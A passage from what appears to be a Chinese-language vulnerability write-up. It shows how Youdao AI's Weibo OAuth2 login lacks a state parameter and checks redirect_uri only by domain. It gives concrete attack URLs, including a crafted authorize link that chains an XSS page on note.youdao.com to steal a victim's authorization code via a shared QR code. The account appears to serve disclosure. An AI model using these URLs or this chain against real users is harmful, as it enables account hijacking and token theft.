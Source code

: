     https://api.weibo.com/oauth2/authorize?response_type=code&client_id=1230490736&redirect_uri=https%3A%2F%2Fai.youdao.com%2Flogin-weibo-redirect.s&forcelogin=true###

    可以看到OAuth2的返回token是`code`类型，`redirect_uri`指向`https://ai.youdao.com/login-weibo-redirect.s`，未提供`state`参数，说明验证仅仅依靠code和跳转链接。只需要将跳转链接设置为攻击者控制的链接，就能够获取验证token。
    
4. 笔者测试发现，redirect_uri仅仅验证了是否为youdao.com域名，子域名、路径等等都未验证，由此，攻击者只需要将该跳转链接设置为包含xss漏洞的链接即可截获token。

    youdao.com域名下的xss漏洞链接：

    https://note.youdao.com/coshare/index.html?token=C47998CE491248EFAE31401AAD4B00BF&gid=149090401&_time=1712630205225

    将上述链接urlencode后替换redirect_uri值：

    https://api.weibo.com/oauth2/authorize?response_type=code&client_id=1230490736&redirect_uri=https%3A%2F%2Fnote.youdao.com%2Fcoshare%2Findex.html%3Ftoken%3DC47998CE491248EFAE31401AAD4B00BF%26gid%3D149090401%26_time%3D171263020522&forcelogin=true###

    打开上述链接，并且将二维码发送给受害者，让其用微博扫描后：

    ![re](/assets/youdaoai/redirect.png)

    跳转到攻击者控制的XSS页面，该xxs将发送code到远程服务器：

    ![xss](/assets/youdaoai/weibotoken.png)
